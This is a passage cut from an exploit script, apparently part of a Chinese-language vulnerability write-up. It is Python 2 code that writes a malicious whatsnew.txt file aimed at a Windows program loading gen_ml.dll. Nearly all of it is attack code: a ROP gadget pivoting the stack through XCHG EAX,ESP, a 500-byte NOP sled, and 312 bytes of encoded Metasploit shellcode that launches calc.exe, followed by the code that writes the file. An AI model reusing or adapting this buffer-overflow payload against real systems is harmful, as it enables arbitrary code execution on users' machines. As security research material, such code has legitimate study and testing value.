rop +\= "\\xca\\x6d\\x5c\\x07"    #0x075C6DCA :  # XCHG EAX,ESP # RETN     \[Module : gen\_ml.dll\]  \*\*   
nops \= "\\x90"\*500  
# msfpayload windows/exec CMD\=calc.exe R | msfencode \-b '\\x00\\xff\\x5c\\x2f\\x0a\\x0d\\x20' \-t perl  
# 312 bytes shellcode  
shellcode \= ("\\xbb\\xd2\\xaa\\xfa\\x33\\x31\\xc9\\xb1\\x33\\xdb\\xd3\\xd9\\x74\\x24" +  
"\\xf4\\x5e\\x83\\xc6\\x04\\x31\\x5e\\x0b\\x03\\x5e\\xd9\\x48\\x0f\\xcf" +  
"\\x35\\x05\\xf0\\x30\\xc5\\x76\\x78\\xd5\\xf4\\xa4\\x1e\\x9d\\xa4\\x78" +  
"\\x54\\xf3\\x44\\xf2\\x38\\xe0\\xdf\\x76\\x95\\x07\\x68\\x3c\\xc3\\x26" +  
"\\x69\\xf0\\xcb\\xe5\\xa9\\x92\\xb7\\xf7\\xfd\\x74\\x89\\x37\\xf0\\x75" +  
"\\xce\\x2a\\xfa\\x24\\x87\\x21\\xa8\\xd8\\xac\\x74\\x70\\xd8\\x62\\xf3" +  
"\\xc8\\xa2\\x07\\xc4\\xbc\\x18\\x09\\x15\\x6c\\x16\\x41\\x8d\\x07\\x70" +  
"\\x72\\xac\\xc4\\x62\\x4e\\xe7\\x61\\x50\\x24\\xf6\\xa3\\xa8\\xc5\\xc8" +  
"\\x8b\\x67\\xf8\\xe4\\x06\\x79\\x3c\\xc2\\xf8\\x0c\\x36\\x30\\x85\\x16" +  
"\\x8d\\x4a\\x51\\x92\\x10\\xec\\x12\\x04\\xf1\\x0c\\xf7\\xd3\\x72\\x02" +  
"\\xbc\\x90\\xdd\\x07\\x43\\x74\\x56\\x33\\xc8\\x7b\\xb9\\xb5\\x8a\\x5f" +  
"\\x1d\\x9d\\x49\\xc1\\x04\\x7b\\x3c\\xfe\\x57\\x23\\xe1\\x5a\\x13\\xc6" +  
"\\xf6\\xdd\\x7e\\x8d\\x09\\x6f\\x05\\xe8\\x09\\x6f\\x06\\x5b\\x61\\x5e" +  
"\\x8d\\x34\\xf6\\x5f\\x44\\x71\\x08\\x2a\\xc5\\xd0\\x80\\xf3\\x9f\\x60" +  
"\\xcd\\x03\\x4a\\xa6\\xeb\\x87\\x7f\\x57\\x08\\x97\\xf5\\x52\\x55\\x1f" +  
"\\xe5\\x2e\\xc6\\xca\\x09\\x9c\\xe7\\xde\\x69\\x43\\x7b\\x82\\x43\\xe6" +  
"\\xfb\\x21\\x9c\\xe2")  
expfile \= open('whatsnew.txt','w')  
expfile.write(version + rop + nops + shellcode)  
print "\[+\] whatsnew.txt generated."  
expfile.close()  
  
测试结果：  
